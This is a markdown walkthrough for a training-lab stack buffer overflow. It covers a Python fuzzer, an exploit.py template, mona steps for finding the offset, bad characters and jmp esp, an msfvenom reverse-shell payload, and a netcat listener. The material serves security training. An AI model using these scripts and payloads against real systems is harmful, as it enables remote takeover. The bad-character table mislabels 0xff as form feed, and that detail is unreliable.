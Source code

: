 # Buffer Overflows
## Mona Configuration
- Create a working folder with mona
````
!mona config -set workingfolder c:\mona\%p
````
## Fuzzing
- Python fuzzing script taken from Buffer Overflow room on THM:

````
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.230.146"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ````
- Run the `fuzzer.py` script using python: `python3 fuzzer.py`
- The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.
## Crash Replication & Controlling EIP
- Save as exploit.py
````
import socket

ip = "10.10.230.146"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
````
- Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
````
- Copy the output and place it into the payload variable of the exploit.py script.
- Rerun the vulnerable piece of software.

- On Kali, run the modified exploit.py script: `python3 exploit.py`

- The script should crash the piece of software again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
````
!mona findmsp -distance 600
````
- Mona should display a log window with the output of the command. If not, click the `"Window"` menu and then `"Log data"` to view it (choose `"CPU"` to switch back to the standard view).

- In this output you should see a line which states:
````
EIP contains normal pattern : ... (offset XXXX)
````
- Update your `exploit.py` script and set the offset variable to this value (was previously set to 0). Set the `payload` variable to an empty string again. Set the `retn` variable to `"BBBB"`.

- Restart vulnerable software in Immunity and run the modified `exploit.py` script again. The `EIP` register should now be overwritten with the 4 B's (e.g. `42424242`).

## Finding Bad Characters

- Generate a bytearray using mona, and exclude the null byte (`\x00`) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be `C:\mona\oscp\bytearray.bin`).
````
!mona bytearray -b "\x00"
````
- Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
#### Alternate Method to Generate Bad Chars
````
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
````
- Update your `exploit.py` script and set the `payload` variable to the string of bad chars the script generates.

- Restart the software in Immunity and run the modified `exploit.py` script again. **Make a note of the address to which the `ESP` register points and use it in the following mona command:**
````
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
````
- A popup window should appear labelled `"mona Memory comparison results"`. If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

**Not all of these might be badchars!** Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

- The first badchar in the list should be the null byte (`\x00`) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with `\x00`. Then update the `payload` variable in your `exploit.py` script and remove the new badchars as well.

- Restart software in Immunity and run the modified `exploit.py` script again. Repeat the badchar comparison until the results status returns **`"Unmodified"`**. This indicates that no more badchars exist.

## Finding a Jump Point

- With the software either running or in a crashed state, run the following `mona` command, making sure to update the `-cpb` option with all the badchars you identified (including `\x00`):
````
!mona jmp -r esp -cpb "\x00"
````
- This command finds all `"jmp esp"` (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the `"Log data"` window (use the Window menu to switch to it if needed).

- Choose an address and update your `exploit.py` script, setting the `"retn"` variable to the address, **written backwards (since the system is little endian)**. For example if the address is `\x01\x02\x03\x04` in Immunity, write it as `\x04\x03\x02\x01` in your exploit.

## Generate Payload

- Run the following `msfvenom` command on Kali, using your Kali `VPN IP` as the `LHOST` and updating the `-b` option with all the badchars you identified (including `\x00`):
````
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
````
- Copy the generated C code strings and integrate them into your `exploit.py` script payload variable using the following notation:
````
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
````

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more `"No Operation"` (`\x90`) bytes:
````
padding = "\x90" * 16
````
## Exploit!

- With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a `netcat` listener on your Kali box using the `LPORT` you specified in the `msfvenom` command (4444 if you didn't change it).

Restart software in Immunity and run the modified `exploit.py` script again. **Your netcat listener should catch a reverse shell!**

## Common Bad Characters
````
0x00     NULL (\0)
0x09     Tab (\t)
0x0a     Line Feed (\n)
0x0d     Carriage Return (\r)
0xff     Form Feed (\f)
````
















